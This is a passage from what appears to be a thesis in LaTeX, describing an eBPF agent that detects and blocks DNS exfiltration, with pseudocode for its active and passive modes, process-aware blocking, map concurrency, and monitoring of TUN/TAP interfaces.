    % \tcp{unique flow index identifier for each skb netflow}
    Update \texttt{skb\_netflow\_integrity\_verify\_map} with key=\texttt{0xFFEF}, value=\texttt{skb\_mark}\;
  }
  Mark \texttt{skb->mark} = \texttt{skb\_mark}\;

  Update \texttt{dns\_packet\_redirection\_map} with key=\texttt{tx\_id}, value={\texttt{l3\_checksum}, \texttt{kernel\_time\_ns}}\;
  
  % key  and value \{\texttt{l3\_checksum}, \texttt{kernel\_time\_ns}\}\;
  % Update \texttt{dns\_loop\_time} with key \texttt{tx\_id} and value \texttt{kernel\_time\_ns}\;

  % Fetch current redirect count from \texttt{redirect\_count\_map} with:
  % \begin{itemize}[nosep]
      % \item Key: \texttt{if\_idx}\;
  % \end{itemize}
  Increment global redirect count for \texttt{if\_idx}\;
  Update \texttt{redirect\_count\_map} with key=\texttt{if\_idx}, value=\texttt{updated\_redirect\_count};

  Perform \texttt{bpf\_redirect(bridge\_if\_index, BPF\_F\_INGRESS)}\;
}
\Else{
  \tcp{Userspace deep-scanned packet re-arrived; verify it is not forged}

  Extract \texttt{kernel\_time\_ns} from \texttt{dns\_kernel\_redirect\_val}\;
  Fetch and delete \texttt{redirect\_ts\_verify\_val} from \texttt{dns\_redirect\_ts\_verify\_map} with key= \texttt{kernel\_time\_ns}\;

  \If{not \texttt{redirect\_ts\_verify\_val}}{
    \tcp{Timing attack: userspace agent did not emit packet}
    \Return \texttt{TC\_ACT\_SHOT}\;
  }
  \Else{
    \tcp{Packet rescanned from authorized sender, clean the entry from map tracking DNS query ID}
    Delete \texttt{redirect\_ts\_verify\_val} from \texttt{dns\_redirect\_ts\_verify\_map}\;
    \Return \texttt{TC\_ACT\_OK}\;
  }
}
\end{algorithm}


% alg 3
\begin{algorithm}[H]
\caption{Userspace eBPF Agent Packet processing in \textbf{Active} mode}
\label{sec:alg3}
\SetKwInOut{Input}{Input}
\SetKwInOut{Output}{Output}

\small
\setstretch{0.5}

\Input{%
  Sniffed DNS packets from suspicious Linux namespaces via pcap (zero-copy),\\
  DNS features,\\
  All kernel eBPF maps of type LRU Hash
}
\Output{%
  Packet Garbage collected (if malicious) or socket write (if benign)
}

Sniff traffic over veth pair interfaces in Linux namespace\;
Extract userspace DNS features from DNS packet\;
Export metrics from all monitoring maps (\texttt{redirection\_count}, \texttt{loop\_time}, etc)\;

Fetch \texttt{isSLDBenign} from eBPF agent's userspace LRU map of top 1M SLDs\;
\If{\texttt{isSLDBenign}}{
  Set \texttt{shouldRetransmit} $\leftarrow$ \texttt{true}\;
}
\Else{
  Fetch \texttt{isBlacklistedSLDFound} from eBPF agent's malicious map\;
  \If{\texttt{isBlacklistedSLDFound}}{
    \tcp{Previously blacklisted, drop packet}
    \Return\;
  }

  Pass features to ONNX model for inference\;

  \If{inference\_result == \texttt{MALICIOUS}}{
    Emit event to message brokers with details\;
    Blacklist SLD for all DNS query records\;
    Garbage Collect Packet data in userspace\;
    \Return\;
  }
  \ElseIf{inference\_result == \texttt{BENIGN}}{
    Set \texttt{shouldRetransmit} $\leftarrow$ \texttt{true}\;
  }
}

\If{\texttt{shouldRetransmit}}{
  Fetch \texttt{dns\_kernel\_redirect\_val} = \{\texttt{l3\_checksum}, \texttt{kernel\_time\_ns}\} from \texttt{dns\_packet\_redirection\_map} with key=\texttt{tx\_id}\;
  Extract \texttt{kernel\_time\_ns} from \texttt{dns\_kernel\_redirect\_val}\;

  \If{\texttt{AF\_PACKET}}{
    Update \texttt{dns\_redirect\_ts\_verify\_map} with key \texttt{kernel\_time\_ns} and value \texttt{true}\;
    Replace packet’s \texttt{l3\_checksum}\;
    Serialize packet payload to raw bytes\;
    Call \texttt{syscall.write(AF\_PACKET, SOCK\_RAW, 0)}\;
  }

  \If{\texttt{AF\_XDP}}{
    Delete \texttt{kernel\_time\_ns} from \texttt{dns\_redirect\_map}\;
    Serialize packet payload to raw bytes\;
    Call \texttt{syscall.write(AF\_XDP, SOCK\_RAW, 0)}\;
  }
}
\end{algorithm}

\label{sec:data_plane_standard_port}
\begin{figure}[htbp]
    
\includegraphics[width=1\textwidth]{UWThesis/images/udp-exfil-port-std.png}
\caption{eBPF Agent DNS Exfiltration Prevention Flow for active phase}
\label{sec:dp-active-phase}
\end{figure}

\subsection{Process-Aware Adaptive Passive Threat Hunting Mode}
\label{sec:passive}
Passive mode reuses the same eBPF program attached to the egress CLSACT TC filter, as introduced in \hyperref[sec:active]{active mode}. This mode extends the design by layering additional security and process-aware security enforcement to prevent DNS-overlaid port obfuscation threats.
The passive mode architecture is broken down as follows. \hyperref[sec:maps]{Maps} introduces the key eBPF structures used in this mode, their types, and their roles, as visualized in \hyperref[sec:dp_eBPF_LRU_Maps_passive]{Figure 4.4}. \hyperref[passive:sec1]{Kernel packet processing} then details how the eBPF programs in kernel identifies and drops malicious DNS exfiltration attempts and tracks the responsible userspace processes. It also leverages kernel tracepoints, especially from the scheduler, for efficient garbage collection. The next section, \hyperref[passive:sec2]{Userspace packet processing}, describes how the eBPF agent parses and classifies traffic identifying potential malicious process involved in exfiltration. Finally, \hyperref[passive:sec3]{eBPF map concurrency} explains how the kernel and userspace components maintain a consistent map state under concurrent access between CPUs.


% maps definition structure in passive phase 
\begin{figure}[H]
\centering

\includegraphics[width=1.0\textwidth]{UWThesis/images/map_struct_nport_53.png}
\caption{eBPF Maps and structure for Agent in passive phase}
\label{sec:dp_eBPF_LRU_Maps_passive}
\end{figure}

\subsubsection{\textbf{eBPF Maps in Passive mode}}
\begin{enumerate}[itemsep=1pt,parsep=0pt]
% \label{passive:maps}
% \item \textbf{DNS Exfiltration Feature Map:} \\
% Key: Feature identifier \\
% Value: Filtering or classification parameter used by the eBPF TC egress program to process DNS traffic.

\item \textbf{Suspicious Process Redirect Count Map:} \\
Key: Process metadata extracted from the kernel \texttt{task\_struct}. \\
Value: Count of DNS redirections per process, specifically for suspicious traffic over non-standard UDP DNS ports.

\item \textbf{Suspicious Packet Source Port–Process Map:} \\
Key: Source port of a potentially layered DNS packet sent over a non-standard UDP port. \\
Value: Process metadata extracted from the kernel \texttt{task\_struct}.

\item \textbf{Malicious Process Tracking Map:} \\
Key: Process ID extracted from the kernel \texttt{task\_struct}. \\
Value: Boolean flag indicating whether the process has been identified as malicious.
\end{enumerate}

\subsubsection{\textbf{eBPF kernel program packet processing in Passive mode}}
\label{passive:sec1}
In passive mode, the system targets DNS exfiltration attempts over arbitrary UDP ports that may evade active mode protections. Like active mode, the eBPF program parses packets up to Layer 4 using SKB metadata. However, it deliberately avoids redirecting all suspicious UDP packets, reducing unnecessary congestion and preserving latency for legitimate Layer 7 protocols using nonstandard ports.

Because the kernel eBPF program cannot reliably determine whether application data over arbitrary UDP ports contains DNS, it uses \texttt{skb\_clone\_redirect} to create a full copy of packets that heuristically resemble DNS. These clones are redirected to a netdev interface managed by the eBPF agent. To minimize memory overhead, redirection is only performed if the payload structure heuristically aligns with DNS protocol fields. The eBPF program performs raw parsing within SKB bounds (skb-$>$data\_end) and validates structure against constraints defined in RFC 1035. If the payload passes these checks, clone redirection is triggered. The DNS protocol parsing logic from the SKB is detailed in \hyperref[sec:alg4]{Algorithm 4}.

Before redirection, the TC eBPF program uses \texttt{bpf\_get\_current\_pid\_tgid} to fetch the current \texttt{task\_struct}, identifying the process and thread responsible for sending the packet. It then checks the \texttt{malicious\_process\_map} to verify whether the process has been flagged as malicious by userspace eBPF agent due to prior suspicious transfers. If flagged, the kernel drops subsequent packets while still cloning and redirecting packets. This design enables dynamic, process-level enforcement, allowing userspace agent to observe retry behavior, gather telemetry, and ultimately terminate stealthy implants that beacon intermittently and exceed the configured threshold.

If the process is not yet flagged, the eBPF program extracts the source UDP port and updates \texttt{src\_port\_task\_struct\_map} with the port as the key, and the process/thread ID as the value. It also increments a counter in \texttt{task\_struct\_redirect\_ct\_map}, keyed by the same PID/TID composite, to track suspicious activity. These updates are explained in \hyperref[sec:alg5]{Algorithm 5}.

This continuous feedback mechanism for threat hunting of malicious processes in the kernel, aided by userspace detection from the eBPF agent, continues until the malicious process stops sending DNS traffic or is explicitly terminated by eBPF agent in userspace. If the process exits before being flagged, a cleanup step is triggered by an eBPF program attached to the raw tracepoint \textbf{tracepoint/sched/sched\_process\_exit}, which is invoked by the kernel process scheduler when a process terminates. This tracepoint eBPF program removes the exited process and corresponding stale entries from both \texttt{task\_struct\_redirect\_ct\_map} and \texttt{malicious\_process\_map}.

% userspace eBPF agent only sends a kill signal when the count of blocked DNS exfiltration attempts from a process exceeds a configured threshold. If the process ends before the threshold is reached, the cleanup ensures that no stale eBPF map entries remain.

\subsubsection{\textbf{eBPF agent userspace packet processing in Passive Mode}}
\label{passive:sec2}
The parallel packet sniffing procedure from the respective network namespace mirrors the approach described earlier in the active phase. As in active mode, clone-redirected packets are received in zero-copy userspace, preserving both application payloads and lower-layer headers. The agent parses each packet to identify embedded DNS structures. If no valid DNS layer is found, the source port is removed from \texttt{src\_port\_task\_struct\_map} to prevent stale state tracking. When DNS is detected, the agent applies the same logic as in active mode: checking a local LRU memory cache for known blacklisted domains and, if absent, performing feature extraction and deep learning inference.
If a packet is classified as malicious, the agent updates the blacklist and streams a threat event to the observability backend. Because these are clone-redirected packets, they are not reinjected. Instead, the agent uses the source port to retrieve the process and thread ID from \texttt{task\_struct\_redirect\_ct\_map}, flags the process in \texttt{malicious\_process\_map}, and enables the kernel to drop future packets from it. The agent also checks how many packets have been redirected for that process and are malicious. If the count exceeds a configurable threshold and the process is marked malicious, the agent terminates the respective process.
This process-aware passive mode enables adaptive detection and response for exfiltration over nonstandard ports. \hyperref[sec:alg6]{Algorithm 6} details the eBPF agent's passive processing logic.

\subsubsection{\textbf{eBPF Maps concurrency handling}}
\label{passive:sec3}
This mode mirrors the concurrency principles of Active Mode by using per-CPU kernel spin locks on shared eBPF maps and mutex in userspace. For \texttt{src\_port\_task\_struct\_map}, atomicity is achieved through unique \texttt{src\_port} keys, allowing the kernel to write and userspace to read without race conditions. Userspace updates to \texttt{malicious\_process\_map} use the \texttt{BPF\_ANY} flag and are synchronized with a userspace mutex. Since kernel programs only perform reads on this map, the design benefits from the RCU (Read-Copy-Update) model, allowing nonblocking reads for improved performance. In \texttt{task\_struct\_redirect\_ct\_map}, both kernel writes and userspace reads occur. Here, spin locks protect kernel writers, while a separate userspace mutex guards readers to prevent race conditions.
\hyperref[sec:dp-passive-phase]{Figure 4.5} illustrates the complete TC pipeline.

% The map concurrency principles remain consistent with those in active mode, relying on per-CPU kernel spin locks with a globally shared eBPF map. This allows the eBPF program, scheduled across different CPUs, to update and reference-count map FDs, which remain alive as long as the eBPF agent process is active in userspace. However, this mode introduces specific concurrency handling for map updates. For , the unique key—representing the source port—ensures atomic read and write operations, starting in the kernel when a DNS packet first arrives, followed by a corresponding read in userspace. Similarly, , which is updated by userspace eBPF agent to mark processes as malicious, always uses the  flag (create or update) for updates. As concurrent goroutines in userspace process sniffed packets in parallel, updates to this map are synchronized using a userspace mutex lock to ensure consistency. Since the kernel eBPF program across different CPUs only reads from this map, this design avoids blocking readers and improves packet processing throughput similar to the RCU (read-copy-update) concept, which prioritizes performance and high-speed data access. Finally, for , where the eBPF program in the kernel (executing on multiple CPUs) writes the redirect count while the eBPF agent in userspace reads it, consistency is maintained using the internal spin lock mechanism of the eBPF map along with the \texttt{BPF\_ANY} update flag. Concurrent reads in userspace are synchronized via a separate userspace mutex, decoupled from the kernel's per CPU spin locks. The  details the full userspace and kernel pipeline over TC. 

% % alg 4
\begin{algorithm}[htbp]
\caption{Egress TC-Based DNS Raw SKB Inspection in \textbf{Passive} Mode}
\label{sec:alg4}
\SetKwInOut{Input}{Input}
\SetKwInOut{Output}{Output}

\small
\setstretch{0.5}

\Input{%
  \texttt{skb} (socket buffer),\\
  eBPF LRU hash maps: \texttt{netlink\_links\_config}
}
\Output{%
  Packet Actions: \texttt{TC\_ACT\_OK},\\
  eBPF Map Updates: \texttt{bpf\_map\_updates}
}

Parse lower layers from \texttt{skb}\;

% Step 0: Extract DNS header from skb
Parse DNS header from \texttt{skb}\;

% Step 1: Extract DNS Header Counts
Extract \texttt{qd\_count}, \texttt{ans\_count}, \texttt{auth\_count}, \texttt{add\_count}\;

% Step 2: Check for Non-Standard Port/Protocol
\tcp{Verify the DNS count limits within u8 range}
\If{%
  \texttt{qd\_count} $\geq$ 256 \textbf{or} \\
  \quad \texttt{ans\_count} $\geq$ 256 \textbf{or} \\
  \quad \texttt{auth\_count} $\geq$ 256 \textbf{or} \\
  \quad \texttt{add\_count} $\geq$ 256%
}{
  \Return \texttt{TC\_ACT\_OK}\;
}

% Step 3: DNS Flags and Opcode/Rcode Validation
Extract DNS flags: \texttt{raw\_dns\_flags} from \texttt{dns\_header}\;

\tcp{Verify opcodes and rcode according to RFC 1035}
\If{\texttt{opcode} $\geq$ 6}{
  \Return \texttt{TC\_ACT\_OK}\;
}

\If{\texttt{rcode} $\geq$ 24}{
  \Return \texttt{TC\_ACT\_OK}\;
}

Extract \texttt{if\_index} from skb\;
% Step 4: Bridge Lookup and Redirection
Fetch \texttt{dst\_ip} and \texttt{bridge\_if\_index} from \texttt{netlink\_links\_config} with key=\texttt{if\_index}, value=\{\texttt{dst\_ip}, \texttt{bridge\_if\_index}\}\;
Perform \texttt{bpf\_map\_updates}\;

\end{algorithm}


% % alg 5
\begin{algorithm}[H]
\caption{eBPF Map Handling in \textbf{Passive} Mode of Agent}
\label{sec:alg5}
\SetKwInOut{Input}{Input}
\SetKwInOut{Output}{Output}

\small
\setstretch{0.5}

\Input{%
  \texttt{skb} (socket buffer),\\
  eBPF LRU hash maps: \\
  \quad \texttt{malicious\_process\_map},\\
  \quad \texttt{src\_port\_task\_struct\_map},\\
  \quad \texttt{task\_struct\_redirect\_ct\_map},\\
  \quad \texttt{dns\_packet\_clone\_redirection\_ct\_map}
}
\Output{%
  \texttt{bpf\_clone\_redirect} action to \texttt{bridge\_if\_index}
}

% Step 1: Extract Transaction ID and Determine Network Layer
Parse DNS header from \texttt{skb}\;
Extract DNS transaction ID (\texttt{tx\_id}) from DNS header\;

% Step 2: Fetch Virtualized Bridge Information
\tcp{\texttt{if\_index} resembles the netdev link index in the kernel}
Fetch \texttt{dst\_ip} and \texttt{bridge\_if\_index} from \texttt{netlink\_links\_config} with key=\texttt{if\_index}\;

Fetch \texttt{skb\_mark} from \texttt{netlink\_links\_config} with key=\texttt{if\_index}\;

Fetch process \texttt{task\_struct} and \texttt{process\_info} with key=\texttt{bpf\_get\_current\_pid\_tgid}\;

Fetch \texttt{is\_malicious} from \texttt{malicious\_process\_map} with key=\texttt{process\_id}\;

\If{not \texttt{is\_malicious} or \texttt{is\_malicious} is \texttt{null}}{
    Update \texttt{src\_port\_task\_struct\_map} with key= \texttt{process\_id}, value=\texttt{task\_struct}\;

    Fetch \texttt{current\_suspicious\_ct} from \texttt{task\_struct\_redirect\_ct\_map} with key=\texttt{task\_struct}\;

    Update \texttt{task\_struct\_redirect\_ct\_map} with key=\texttt{task\_struct}, value=\texttt{current\_suspicious\_ct + 1}\;

    % Increment global \texttt{clone\_redirect\_ct} counter\;

    Update \texttt{dns\_packet\_clone\_redirection\_ct\_map} with key=\texttt{if\_index}, value=\texttt{new count}\;

    \If{\texttt{is\_malicious} is \texttt{null}}{
        \tcp{First DNS attempt by process; not yet marked malicious}
        Update \texttt{malicious\_process\_map} with key=\texttt{process\_id}, value=\texttt{false}\;
    }

    Perform \texttt{bpf\_clone\_redirect(skb, bridge\_if\_index, BPF\_F\_INGRESS)}\;
}
\Else{
    Update \texttt{task\_struct\_redirect\_ct\_map} with key= \texttt{task\_struct}, value=\texttt{(current\_suspicious\_ct + 1)}\;

    Perform \texttt{bpf\_clone\_redirect(skb, bridge\_if\_index, BPF\_F\_INGRESS)}\;
    \Return \texttt{TC\_ACT\_SHOT}\;
    \tcp{Drop packet since malicious process attempted exfiltration. Continue redirecting clones to monitor retry behavior.}
}
\end{algorithm}



% % alg 6
\begin{algorithm}[htbp]
\caption{Userspace eBPF Agent Packet processing in \textbf{Passive} mode}
\label{sec:alg6}
\SetKwInOut{Input}{Input}
\SetKwInOut{Output}{Output}

\small % Reduce font size for the entire algorithm
\setstretch{0.75} % Reduce line spacing for more compactness

\Input{Sniffed DNS packets from suspicious Linux namespaces via \texttt{pcap}; all kernel eBPF maps; eBPF LRU hash mapsss (\texttt{malicious\_process\_map}, \texttt{src\_port\_task\_struct\_map}, \texttt{task\_struct\_redirect\_ct\_map})}
\Output{Updates to \texttt{malicious\_process\_map}}

Sniff traffic over \texttt{veth} interfaces in isolated namespaces\;

\If{DNS layer \textbf{not} present in \texttt{skb\->data}}{
    \Return;
}

Extract L4 transport ports: \texttt{src\_port}, \texttt{dest\_port}\;
Extract DNS userspace features: \texttt{tx\_id}, \texttt{qd\_count}, \texttt{ans\_count}, \texttt{query\_class}, \texttt{query\_type}\;

Fetch \texttt{task\_struct} from \texttt{src\_port\_task\_struct\_map} with key=\texttt{src\_port}\;
% Extract \textit{process\_id} from \texttt{task\_struct} 

Extract \texttt{process\_id}, \texttt{thread\_group\_id} from \texttt{task\_struct}\;
% \texttt{malicious_process_map} with:
%     \begin{itemize}
%         \item Key: \texttt{process\_id}
%     \end{itemize}
Fetch \texttt{isBlacklistedSLDFound} from userspace LRU hash\;
\If{\texttt{isBlacklistedSLDFound}}{
    Update \texttt{is\_malicious} in \texttt{malicious\_process\_map} with key=\texttt{process\_id}, value=\texttt{true}\;
    Fetch \texttt{current\_suspicious\_ct} from \texttt{task\_struct\_redirect\_ct\_map} with key=\texttt{task\_struct}\;
    \If{\texttt{current\_suspicious\_ct} $>$ \texttt{MAX\_MALICIOUS\_THRESHOLD}}{
        Send \texttt{SIGKILL} to \texttt{process\_id}\;
        \tcp{Terminate the malicious process previously extracted from \texttt{src\_port\_task\_struct\_map}, clean \texttt{malicious\_task\_struct\_map}}
        Delete from \texttt{malicious\_process\_map} with key=\texttt{process\_id}\;
    }
    \Return;
}

Pass features to ONNX model for inference\;

\If{inference\_result == \texttt{MALICIOUS}}{
    Emit malicious threat events to message broker\;
    Blacklist SLD for related DNS records in userspace LRU malicious cache\;
    Update \texttt{is\_malicious} in \texttt{malicious\_process\_map} with key=\texttt{process\_id}, value=\texttt{true}\;
    Fetch \texttt{current\_suspicious\_ct} from \texttt{task\_struct\_redirect\_ct\_map} with key=\texttt{task\_struct}\;
    \If{\texttt{current\_suspicious\_ct} $>$ \texttt{MAX\_MALICIOUS\_THRESHOLD}}{
        Send \texttt{SIGKILL} to \texttt{process\_id}\;
        \tcp{Terminate the malicious process previously extracted from \texttt{src\_port\_task\_struct\_map}, clean \texttt{malicious\_task\_struct\_map}}
        Delete from \texttt{malicious\_process\_map} with key=\texttt{process\_id}\;
    }
    \Return;
}
\ElseIf{inference\_result == \texttt{BENIGN}}{
    \tcp{No immediate action; future packets will be tracked and evaluated}
    \Return;
}
\end{algorithm}



\begin{figure}[htbp]
\centering

\includegraphics[width=6.5in,height=10in,keepaspectratio]{UWThesis/images/udp-exfil-port-nstd.png}
\caption{eBPF Agent DNS Exfiltration Prevention Flow for passive phase}
\label{sec:dp-passive-phase}
\end{figure}

\subsection{DNS Exfiltration via Encapsulated Traffic}
\label{sec:encap}
In the Linux kernel networking stack, encapsulated traffic is managed through virtualization drivers that extend netdev with associated RX and TX queues. These drivers support encapsulation across the L2, L3, and L4 layers. The current eBPF agent focuses on L2-level encapsulation over software network devices. It does not target tunnels using kernel cryptographic subsystems through the kernel keyring and eXtensible framework (xfrm), such as OpenVPN, IPsec, or WireGuard. This design decision reflects real-world DNS usage: DNS resolution rarely occurs within cryptographic tunnels. In practice, DNS exfiltration over encapsulated traffic is most commonly seen with VLAN-tagged traffic and TUN/TAP virtual interfaces. VLAN encapsulation is handled during SKB parsing by the TC eBPF program in the active phase, as explained earlier in \hyperref[sec:alg1]{Algorithm 1}. Here, L2 headers such as 802.1Q and 802.1AD are stripped to expose the inner packet for deep inspection. TUN/TAP interfaces, on the other hand, are virtual software devices exposed to userspace via file descriptors. Malicious processes can write raw DNS-tunneled packets directly to these interfaces, bypassing conventional filtering. The kernel applies L3 encapsulation on transmit and L2 de-encapsulation on receive (via TAP), before forwarding to a physical NIC. These interfaces are usually created via iproute2 or netlink. To address DNS tunneling over TUN/TAP, the agent injects kprobes into the \texttt{tun\_chr\_open} kernel driver. When a new TUN/TAP interface is created, the agent receives a kernel event via a ring buffer. It responds by attaching the same DPI eBPF logic (from the active phase) to the TC egress hook of the new interface. This ensures consistent filtering across dynamically spawned tunnels. The ring buffer event includes rich telemetry about the creating process, which aids both monitoring and threat attribution. The complete flow is illustrated in \hyperref[sec:data_plane_tunnel_netdev]{Figure 4.6}.

\begin{figure}[htbp]
\centering
